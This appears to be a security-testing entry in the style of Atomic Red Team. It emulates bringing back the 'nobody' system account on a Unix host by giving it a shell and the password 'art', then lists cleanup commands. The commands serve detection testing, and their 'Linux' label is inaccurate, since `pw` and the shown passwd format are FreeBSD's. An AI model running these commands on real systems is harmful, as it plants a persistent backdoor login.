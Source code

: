 **Supported Platforms:** Linux


**auto_generated_guid:** 16f6374f-7600-459a-9b16-6a88fd96d310






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
cat /etc/passwd |grep nobody 
# -> nobody:x:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
pw usermod nobody -s /bin/sh
echo $(openssl passwd -1 art) | pw mod user nobody -h 0
su nobody
whoami
exit
```

#### Cleanup Commands:
```sh
pw usermod nobody -s /usr/sbin/nologin
cat /etc/passwd |grep nobody
# -> nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
```





<br/>
